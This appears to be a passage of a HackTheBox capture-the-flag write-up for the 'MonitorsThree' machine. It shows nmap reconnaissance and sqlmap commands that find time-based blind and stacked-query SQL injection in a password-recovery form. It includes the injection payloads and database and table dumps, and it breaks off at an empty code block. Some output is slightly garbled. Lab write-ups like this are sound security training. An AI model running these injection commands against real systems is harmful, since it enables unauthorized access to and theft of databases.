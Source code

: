 ```yaml
---
title: MonitorsThree
tags:
  - HackTheBox
  - Medium
  - Linux
  - SQLi
---
```

![](Pasted%20image%2020240904220155.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.30 monitorsthree.htb" | sudo tee -a /etc/hosts
```

First I performed a Nmap scan:

```shell
nmap -sC -T4 -p- monitorsthree.htb > sC.txt

[redacted]
PORT     STATE    SERVICE
22/tcp   open     ssh
| ssh-hostkey: 
|   256 86:f8:7d:6f:42:91:bb:89:72:91:af:72:f3:01:ff:5b (ECDSA)
|_  256 50:f9:ed:8e:73:64:9e:aa:f6:08:95:14:f0:a6:0d:57 (ED25519)
80/tcp   open     http
|_http-title: MonitorsThree - Networking Solutions
8084/tcp filtered websnp
```

I decided to take a look at the webpage:

![](Pasted%20image%2020240904221116.png)

After inspecting the source code, I didn't find anything, so I took a look at the login page:

![](Pasted%20image%2020240904221352.png)

Let's capture the request to `admin:admin` and pass it to [Sqlmap 🪲](/notes/tools/Sqlmap.md):

```shell
sqlmap -r req.txt -p ' username' --level=5 --risk=3 --batch --dbs
```

Unfortunately, it didn't work. So let's try the same at the `forgot_password.php`:

![](Pasted%20image%2020240904223927.png)

```shell
sqlmap -r req.txt --level=5 --risk=3 --batch --dbs --dump

[redacted]
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 2253 HTTP(s) requests:
---
Parameter: username (POST)
    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: username=a';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=a' AND (SELECT 2135 FROM (SELECT(SLEEP(5)))iKyK)-- IvUB
```

> *Bingo!*

It seems that the account recovery page is vulnerable to **time-base blind sql injection**:

```shell
[redacted]

available databases [2]:
[*] `monitorsthree_d\x81`
[*] information_schema
```

So I inspected `monitorsthree_db`:

```shell
sqlmap -r req.txt --level=5 --risk=3 --batch -D monitorsthree_db --tables --dump

[redacted]
Database: monitorsthree_db
[6 tables]
+---------------+
| uers         |
| changelog     |
| customers     |
| invoice_tasks |
| invoices      |
| tasks         |
+---------------+
```

Let's check `users`:

```shell
```

